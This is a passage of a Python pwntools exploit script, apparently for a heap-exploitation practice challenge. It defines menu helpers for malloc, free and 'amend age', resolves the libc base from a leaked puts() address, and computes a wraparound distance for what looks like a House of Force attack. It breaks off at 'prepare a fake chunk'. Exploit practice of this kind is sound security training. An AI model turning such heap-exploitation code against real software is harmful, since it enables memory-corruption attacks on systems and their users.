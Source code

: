 ```python
b *main+793


"""

def info(mess):
    return log.info(mess)

def success(mess):
    return log.success(mess)

def error(mess):
    log.error(mess)


def start():
    if args.GDB:
        return gdb.debug(elf.path, env={"LD_PRELOAD": libc.path},gdbscript=gs)
    elif args.REMOTE:
        return remote('', )
    else:
        return process(elf.path, env={"LD_LIBRARY_PATH": libc.path})

index = 0

# Select the "malloc" option; send size & data.
# Returns chunk index.
def malloc(size, data):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "free" option; send index.
def free(index):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

# Select the "amend age" option; send new value.
def amend_age(age):
    io.send(b"3")
    io.sendafter(b"age: ", f"{age}".encode())
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts
io.timeout = 0.1

# =============================================================================

# =-=-=- PREPARE A FAKE CHUNK -=-=-=

```
